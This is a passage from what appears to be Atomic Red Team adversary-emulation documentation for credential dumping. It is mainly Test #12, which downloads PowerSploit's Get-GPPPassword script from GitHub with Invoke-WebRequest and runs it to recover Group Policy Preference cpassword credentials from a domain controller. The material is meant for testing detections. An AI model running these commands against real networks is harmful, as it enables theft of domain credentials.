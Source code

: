 

#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {0} else {1} 
```
##### Get Prereq Commands:
```
Write-Host Joining this computer to a domain must be done manually
```




<br/>
<br/>

## Atomic Test #12 - GPP Passwords (Get-GPPPassword)
Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| gpp_script_path | Path to the Get-GPPPassword PowerShell Script | Path | PathToAtomicsFolder\T1003\src\Get-GPPPassword.ps1|
| gpp_script_url | URL of the Get-GPPPassword PowerShell Script | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/87630cac639f29c2adcb163f661f02890adf4bdd/Exfiltration/Get-GPPPassword.ps1|


#### Attack Commands: Run with `powershell`! 
```
. #{gpp_script_path}
Get-GPPPassword -Verbose
```



#### Dependencies:  Run with `powershell`!
##### Description: Get-GPPPassword PowerShell Script must exist at #{gpp_script_path}
##### Check Prereq Commands:
```
if(Test-Path "#{gpp_script_path}") { 0 } else { 1 } 
```
##### Get Prereq Commands:
```
New-Item -ItemType Directory (Split-Path "#{gpp_script_path}") -Force | Out-Null
Invoke-WebRequest #{gpp_script_url} -OutFile "#{gpp_script_path}"
```
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {0} else {1} 
```
##### Get Prereq Commands:
```
Write-Host Joining this computer to a domain must be done manually
```
